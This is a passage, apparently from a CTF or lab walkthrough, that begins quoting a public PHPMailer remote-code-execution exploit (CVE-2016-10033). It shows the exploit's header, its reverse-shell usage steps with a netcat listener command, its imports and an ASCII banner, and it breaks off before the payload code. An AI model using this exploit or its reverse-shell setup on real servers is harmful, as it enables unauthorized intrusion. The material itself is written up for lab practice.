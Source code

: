 ```
![image](https://user-images.githubusercontent.com/69868171/120070420-78b95900-c058-11eb-9b49-66944043e2d8.png)

Now let edit our exploit.

```
"""
# Exploit Title: PHPMailer Exploit v1.0
# Date: 29/12/2016
# Exploit Author: Daniel aka anarc0der
# Version: PHPMailer < 5.2.18
# Tested on: Arch Linux
# CVE : CVE 2016-10033

Description:
Exploiting PHPMail with back connection (reverse shell) from the target

Usage:
1 - Download docker vulnerable enviroment at: https://github.com/opsxcq/exploit-CVE-2016-10033
2 - Config your IP for reverse shell on payload variable
4 - Open nc listener in one terminal: $ nc -lnvp <your ip>
3 - Open other terminal and run the exploit: python3 anarcoder.py

Video PoC: https://www.youtube.com/watch?v=DXeZxKr-qsU

Full Advisory:
https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html
"""

from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")
